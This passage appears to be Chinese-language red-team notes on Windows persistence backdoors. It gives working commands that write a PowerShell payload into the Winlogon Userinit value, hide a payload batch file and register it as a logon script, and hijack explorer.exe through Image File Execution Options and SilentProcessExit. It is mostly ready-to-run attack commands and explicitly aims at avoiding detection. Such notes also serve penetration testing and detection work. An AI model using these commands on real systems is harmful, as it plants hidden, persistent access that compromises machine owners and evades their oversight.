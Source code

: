 - 直接写入注册表
    ```bash
    reg add HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon /v Userinit /t REG_SZ /d "C:\Windows\System32\userinit.exe,<powershell代码>" /f
    ```

或者

- 使用 powershell
    ```powershell
    Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\WINDOWS NT\CurrentVersion\Winlogon" -name Userinit -value "C:\Windows\system32\userinit.exe,<powershell代码>"
    ```

**Logon Scripts 后门**
```
HKCU\Environment
```

1. 上传后门程序

    将 powershell 的一句话执行程序直接放入 bat 脚本中

2. 隐藏后门程序
    ```
    attrib "C:\Windows\Temp\payload.bat" +h +s
    ```

3. 写入注册表
    ```
    reg add HKCU\Environment /v UserInitMprLogonScript /t REG_SZ /d "C:\Windows\Temp\payload.bat" /f
    ```

- 清除后门
    ```
    reg delete HKCU\Environment /v UserInitMprLogonScript
    ```
    ```
    del C:\Windows\Temp\payload.bat
    ```

**映像劫持**

- https://oddvar.moe/2018/04/10/persistence-using-globalflags-in-image-file-execution-options-hidden-from-autoruns-exe/

需要部署后门程序，但是不易被发现
```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\explorer.exe" /v GlobalFlag /t REG_DWORD /d 512

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\explorer.exe" /v ReportingMode /t REG_DWORD /d 1

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\explorer.exe" /v MonitorProcess /d "C:\Users\Administrator\Desktop\payload.exe"
```
